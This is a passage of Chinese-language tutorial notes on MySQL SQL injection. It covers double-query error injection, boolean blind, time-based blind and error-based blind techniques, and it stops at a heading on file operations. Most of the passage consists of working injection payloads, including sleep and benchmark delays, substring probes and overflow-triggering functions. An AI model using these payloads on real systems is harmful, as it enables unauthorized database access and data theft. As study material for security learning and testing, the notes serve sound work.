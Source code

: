 下面语句据说利用随机GROUP BY有概率爆出错误，[参考](https://mochazz.github.io/2017/09/23/Double_%20SQL_Injection/#0x01-%E5%8F%8C%E6%9F%A5%E8%AF%A2)，但我无法复现

```sql
SELECT count(*),concat((select user()),floor(rand()*2))a FROM information_schema.columns GROUP BY a
```

### 盲注

web应用进行数据库操作之后可能不会回显，比如只显示“查询成功”或“查询失败”，甚至连成功与否都不告诉用户。这种情况下通过注入获取信息的方法就叫盲注。参考：[一文搞定MySQL盲注](https://www.anquanke.com/post/id/266244)

#### 布尔盲注

1. 找注入点
2. 构造条件。这个条件的真假影响回显。例如若payload`' or '1'='1`回显“查询成功”，`' or '1'='2`回显“查询失败”，这个payload就是合格的条件
3. 将条件替换成注入的数据，例如下面的语句。替换参数，不断尝试直到爆破出整条数据

```sql
SELECT * FROM users WHERE id='' or length(database()) < 16;
SELECT * FROM users WHERE id='' or substr(database(), 1, 1) = 'a';
```

常用的字符串截取方法：

```sql
SELECT substr('a', 1, 1), mid('a', 1, 1), right('a', 1), left('a', 1);
regexp, rlike, trim, insert, like;
```

#### 延时盲注

若完全没有回显，可以利用延时判断条件真假，若查询成功则会延迟一段时间再响应

```sql
SELECT name FROM users WHERE id='' UNION SELECT IF((1=1), sleep(5), 0);
SELECT name FROM users WHERE id='' UNION SELECT CASE WHEN (1=1) THEN sleep(5) ELSE 0 END;
SELECT name FROM users WHERE id='' UNION SELECT sleep(5*(1=1));
```

网站可能禁`IF`等关键字，按需灵活选取。`sleep`也有以下替代方法：

```sql
SELECT benchmark(1000000, sha1('a'));    # 重复执行sha实现延时
select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');  # 正则状态机复杂匹配
```

#### 报错盲注

若服务器没有回显，又禁用了延时盲注的关键字，可以尝试构造SQL ERROR。查询成功、查询失败、SQL报错可能是三套处理逻辑，只要报错的结果和另外两个有区别就能强行获得回显

```sql
SELECT exp(709 + (1=1));
SELECT cot(1 - (1=1));
SELECT pow(1 + (1=1), 99999);
```

### 文件操作
